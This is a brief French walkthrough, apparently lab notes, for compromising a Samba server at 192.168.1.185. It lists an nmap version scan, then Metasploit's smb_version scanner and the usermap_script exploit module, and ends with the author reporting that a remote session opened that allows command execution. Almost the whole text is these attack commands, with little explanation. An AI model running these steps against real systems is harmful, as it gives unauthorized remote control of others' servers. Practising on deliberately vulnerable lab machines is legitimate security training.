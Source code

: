 Avec nmap : 

 - nmap -sV 192.168.1.185

 Avec metasploite : 

 - use auxiliary/scanner/smb/smb_version
 - set RHOSTS 192.168.1.185
 - exploit

 -> on copie la version de samba.

 - use exploit/multi/samba/usermap_script
 - info
 - set RHOSTS 192.168.1.185

 -> une session a été ouverte et je peux executer des commandes à l'intérieur.